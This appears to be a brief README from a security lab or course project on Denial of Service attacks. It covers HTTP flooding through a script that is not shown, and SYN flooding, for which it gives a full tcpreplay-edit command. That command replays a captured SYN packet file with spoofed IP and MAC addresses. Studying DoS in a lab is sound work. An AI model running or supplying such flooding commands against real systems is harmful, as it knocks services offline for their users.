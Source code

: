 # Denial of Service (DoS)

We focus on two types of DoS attacks.

* HTTP Flooding
* (Optional) SYN Flooding

## HTTP Flooding

We simply use `http_flooding.py` to conduct our attack.

## SYN Flooding

```bash
$ sudo tcpreplay-edit --srcipmap=10.0.0.2:10.200.64.115 --destipmap=10.120.0.2:172.20.10.4 --enet-smac=88:66:5a:31:43:51 --enet-dmac=C0:2C:5C:2E:FE:6A --loop=1 en0 ./SYN.pcap
```

